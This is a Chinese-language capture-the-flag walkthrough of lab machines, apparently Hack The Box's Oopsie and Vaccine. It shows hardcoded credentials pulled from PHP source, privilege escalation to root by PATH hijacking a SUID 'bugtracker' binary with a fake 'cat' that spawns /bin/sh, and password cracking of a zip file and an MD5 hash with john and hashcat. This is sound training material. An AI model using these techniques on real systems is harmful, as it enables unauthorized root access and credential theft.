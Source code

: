 ```php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

此外，通过 `grep -ri passw*` 还能在 index.php 中发现 `admin` 用户的密码：

```php
if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
```

通过 `/etc/passwd` 发现系统中同样存在 `robert` 用户，因此可以尝试用 `M3g4C0rpUs3r!` 切换到 `robert` 用户，并在用户 home 目录下发现 user flag。随后通过 `id` 发现 `robert` 用户属于 `bugtracker` 组，查找所有该组用户拥有的文件：

```bash
$ find / -group bugtracker 2>/dev/null
```

可以发现一个 SUID 可执行文件 `/usr/bin/bugtracker`。尝试执行：

```bash
$ /usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 11
11
---------------

cat: /root/reports/11: No such file or directory
```

可以发现它会接收用户输入，将其拼接到 `/root/reports` 后面然后用 `cat` 读取。那么一个简单的提权思路就是修改环境变量，使 `cat` 命令指向我们自定义的 `cat` 脚本，在脚本中启动 shell 即可：

```bash
$ cd /tmp
$ echo "/bin/sh" > cat
$ chmod +x cat
$ export PATH=/tmp:$PATH
$ /usr/bin/bugtracker
```

### Vaccine

通过 FTP 下载压缩包，破解压缩包密码：

```bash
$ zip2john backup.zip > hashes
$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes
```

获得密码 `741852963`，随后在 index.php 中发现 `admin` 用户的密码 MD5 `2cb42f8734ea607eefed3b70af13bbd3`，使用 hashcat 指定 MD5 算法并破解得到密码明文：`qwerty789`：

```bash
$ echo 2cb42f8734ea607eefed3b70af13bbd3 > hash
$ hashcat -m 0 -a 0 hash /usr/share/wordlists/rockyou.txt
```
